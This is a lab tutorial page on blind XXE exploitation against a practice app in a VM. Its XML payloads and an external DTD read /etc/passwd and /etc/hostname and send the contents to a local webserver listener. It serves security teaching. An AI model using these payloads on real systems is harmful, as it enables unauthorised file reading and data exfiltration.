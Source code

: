 ```yaml
---
title: "Blind XXE Exploit"
weight: 6
---
```


Lets try setting up two general entities. The first will read the `/etc/password` file and the second will send the contents to our webserver. To do this we define a `foo` entity with the contents of the local file and then use the `http` request and place the `foo` entity in the URL that is requested.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY foo SYSTEM "file:///etc/passwd">
  <!ENTITY xxe SYSTEM "http://127.0.0.1:5000/&foo;">
]>

<todo>&xxe;</todo>
```

We get an error and on our webserver we see the request, but the general entity `foo` is not interpolated. Why?

{{% notice info %}}
This breaks rule 3 of the General Entity rules - A General Entity may be part of another entity definition but only if that entity will be used directly in the document. Because the `&foo;` is not used directly in the document but rather as part of the URL for an external entity it won't work.
{{% /notice %}}

The good news is that we can use [Parameter Entities]({{< ref "entities.md#parameter-entities" >}}). But there are some limitations to their use:

According to [w3](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset)

> The use of parameter entities in the internal subset is restricted as described below.
...
> In the internal DTD subset, parameter-entity references MUST NOT occur within markup declarations; they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.)

Breaking this down there are two important parts:

1. Paramater entities cannot be declared or used within a definition of an entity
2. **Except if the entity is an external defined entity**

The second line is very important as that is how we will exfil data. But first, lets make sure we understand the first line.

Using the xml below: The usage of the `passwd` parameter entity at the end of line 3 will fail because it is used within the declaration of the `wrapper` parameter entity. On the other hand the `%wrapper;` on line 4 is perfectly fine because it is not used within a declaration.

```xml
<!DOCTYPE xxe [
  <!ENTITY % passwd SYSTEM "/etc/passwd">
  <!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://127.0.0.1:5000/?%passwd;'>">
  %wrapper;
]>
```

## External Entities

In our VM you will find the `/home/vagrant/dtds/external.dtd` file with the following content:

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Now run the python webserver from the `/home/vagrant/dtds` directory

```bash
cd /home/vagrant/dtds
python3 -m http.server 5000
```

Now submit the following in the app

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/external.dtd"> %xxe;
]>
```

![Blind XXE Premature End](/static/img/premature_end.png)

The error we get back states that there was a premature end. This is most likely caused by the carriage returns in the file. Lets try a file that should not contain anything that will cause URL issues and see if we are successful.

We are going to change the file we are trying to retrieve to `/etc/hostname`. To do that we will use the `hostname.dtd` found in the `/home/vagrant/dtds` directory.

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Now submit the following xml which calls the hostname file.

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/hostname.dtd"> %xxe;
]>
```

We see that the error page no longer states that there is a URL error.

![Blind XXE Hostname Error](/static/img/blind_xxe_hostname_error.png)

If we check the python server we see a new request that includes the VM hostname:

![Python Webserver Hostname](/static/img/python_webserver_hostname.png)

